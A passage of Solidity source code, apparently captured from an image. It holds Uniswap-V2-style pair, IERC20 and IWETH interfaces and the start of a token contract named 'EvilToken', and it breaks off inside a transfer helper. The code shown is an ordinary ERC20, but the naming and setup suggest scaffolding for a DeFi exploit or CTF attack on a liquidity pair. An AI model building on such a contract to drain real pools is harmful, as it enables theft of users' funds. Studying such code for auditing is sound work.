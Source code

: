 ```solidity
    function token0() external view returns (address);
    function token1() external view returns (address);
    function getReserves() external view returns (uint112 reserve0, uint112 reserve1, uint32 blockTimestampLast);
    function price0CumulativeLast() external view returns (uint);
    function price1CumulativeLast() external view returns (uint);
    function kLast() external view returns (uint);

    function mint(address to) external returns (uint liquidity);
    function burn(address to) external returns (uint amount0, uint amount1);
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
    function skim(address to) external;
    function sync() external;

    function initialize(address, address) external;
}

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
}

interface IWETH is IERC20 {
    function withdraw(uint256) external;
    function deposit() external payable;
}

contract EvilToken {
    string constant public name = "Token";
    string constant public symbol = "T";
    uint8 constant public decimals = 18;
    uint constant public totalSupply = 100 ether;
    mapping (address => uint) public balanceOf;
    mapping (address => mapping (address => uint)) public allowance;

    event Transfer(address indexed from, address indexed to, uint value);
    event Approval(address indexed owner, address indexed spender, uint value);

    constructor() {
        balanceOf[msg.sender] = totalSupply;
        emit Transfer(address(0), msg.sender, totalSupply);
    }

    function transfer(address to, uint value) public returns (bool) {
        _transfer(msg.sender, to, value);
        return true;
    }

    function approve(address spender, uint value) public returns (bool) {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
        return true;
    }

    function transferFrom(address from, address to, uint value) public returns (bool) {
        require(allowance[from][msg.sender] >= value);
        allowance[from][msg.sender] -= value;
        _transfer(from, to, value);
        return true;
    }

    function _transfer(address from, address to, uint value) private {
        require(balanceOf[from] >= value);
```